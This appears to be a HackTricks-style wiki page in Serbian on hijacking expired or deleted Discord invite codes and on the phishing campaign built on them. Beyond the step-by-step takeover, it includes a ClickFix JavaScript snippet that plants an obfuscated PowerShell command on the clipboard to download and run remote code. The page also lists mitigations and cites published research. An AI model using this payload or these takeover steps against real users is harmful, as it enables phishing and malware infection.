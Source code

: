 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Ranljivost Discord-ovog sistema za poziv omogućava pretnjama da preuzmu istekao ili obrisan pozivni kod (privremeni, trajni ili prilagođeni) kao nove prilagođene linkove na bilo kojem serveru sa Level 3 pojačanjem. Normalizovanjem svih kodova na mala slova, napadači mogu unapred registrovati poznate pozivne kodove i tiho preuzeti saobraćaj kada originalni link istekne ili kada izvorni server izgubi svoje pojačanje.

## Tipovi poziva i rizik od preuzimanja

| Tip poziva            | Moguće preuzimanje? | Uslov / Komentari                                                                                       |
|-----------------------|---------------------|---------------------------------------------------------------------------------------------------------|
| Privremeni pozivni link | ✅                  | Nakon isteka, kod postaje dostupan i može se ponovo registrovati kao prilagođeni URL od strane pojačanog servera. |
| Trajni pozivni link   | ⚠️                  | Ako je obrisan i sastoji se samo od malih slova i cifara, kod može ponovo postati dostupan.            |
| Prilagođeni link      | ✅                  | Ako izvorni server izgubi svoje Level 3 pojačanje, njegov prilagođeni poziv postaje dostupan za novu registraciju. |

## Koraci eksploatacije

1. Istraživanje
- Pratite javne izvore (forume, društvene mreže, Telegram kanale) za pozivne linkove koji odgovaraju obrascu `discord.gg/{code}` ili `discord.com/invite/{code}`.
- Prikupite pozivne kodove od interesa (privremene ili prilagođene).
2. Pre-registration
- Kreirajte ili koristite postojeći Discord server sa privilegijama Level 3 pojačanja.
- U **Server Settings → Vanity URL**, pokušajte da dodelite ciljni pozivni kod. Ako bude prihvaćen, kod je rezervisan od strane zlonamernog servera.
3. Aktivacija preuzimanja
- Za privremene pozive, sačekajte da originalni poziv istekne (ili ga ručno obrišite ako kontrolišete izvor).
- Za kodove koji sadrže velika slova, varijanta sa malim slovima može se odmah preuzeti, iako preusmeravanje aktivira tek nakon isteka.
4. Tiho preusmeravanje
- Korisnici koji posete stari link se neprimetno šalju na server pod kontrolom napadača kada je preuzimanje aktivno.

## Phishing tok putem Discord servera

1. Ograničite kanale servera tako da je vidljiv samo **#verify** kanal.
2. Postavite bota (npr., **Safeguard#0786**) da podstakne novajlije da se verifikuju putem OAuth2.
3. Bot preusmerava korisnike na phishing sajt (npr., `captchaguard.me`) pod izgovorom CAPTCHA ili koraka verifikacije.
4. Implementirajte **ClickFix** UX trik:
- Prikazujte poruku o pokvarenom CAPTCHA.
- Uputite korisnike da otvore **Win+R** dijalog, nalepite unapred učitanu PowerShell komandu i pritisnu Enter.

### ClickFix Clipboard Injection Example
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Ovaj pristup izbegava direktno preuzimanje fajlova i koristi poznate UI elemente kako bi smanjio sumnju korisnika.

## Mogućnosti ublažavanja

- Koristite trajne pozivnice koje sadrže barem jedno veliko slovo ili ne-alfanumerički karakter (nikada ne isteknu, ne mogu se ponovo koristiti).
- Redovno menjajte pozivne kodove i opozovite stare linkove.
- Pratite status pojačanja Discord servera i tvrdnje o vanity URL-ovima.
- Obrazujte korisnike da provere autentičnost servera i izbegavaju izvršavanje komandi koje su kopirane iz međuspremnika.

## Reference

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – [https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/](https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/)
- Discord Custom Invite Link Documentation – [https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link](https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link)

{{#include ../../banners/hacktricks-training.md}}
